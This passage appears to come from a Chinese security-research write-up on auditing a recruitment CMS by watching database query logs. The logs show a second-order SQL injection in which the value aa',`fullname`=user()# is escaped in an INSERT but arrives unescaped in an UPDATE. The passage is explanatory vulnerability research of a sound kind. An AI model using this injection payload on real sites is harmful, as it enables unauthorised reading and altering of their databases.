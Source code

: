 更新数据库监控

插入语句中  aa'  是被转意了  

```
2022/4/14 21:25	INSERT INTO qs_resume_education (`uid`, `pid`, `start`, `endtime`, `school`, `speciality`, `education`, `education_cn`) VALUES ('1', '1', '2020\xC4\xEA3\xD4\xC2', '2012\xC4\xEA8\xD4\xC2', 'aa\',`fullname`=user()#', 'aa\',`fullname`=user(', '70', '\xB1\xBE\xBF\xC6')
```

更新语句没有被转意

```
2022/4/14 21:25	UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='73', `key`='aa',`fullname`=user()# aa','fullname=user()# liandy \xC8\xED\xBC\xFE\xCF\xEEĿ\xBE\xAD\xC0\xED/\xD6\xF7\xB9\xDC liandy0  \xC8\xED\xBC\xFE00 \xCF\xEEĿ00 \xCF\xEEĿ\xBE\xAD\xC0\xED \xBE\xAD\xC0\xED00 \xD6\xF7\xB9\xDC00 \xB8\xDF\xD6\xD000 liandy aa','fullname=user( aa',`fullname`=user(', `refreshtime`='1649942748' WHERE uid='1' AND id='1'
```



返回查看简历

![](image50/50-33.png)



## 苹果 CMS 影视建站系统挖掘-数据库监控追踪(自带过滤)

MySQL-Monitor 安装及使用
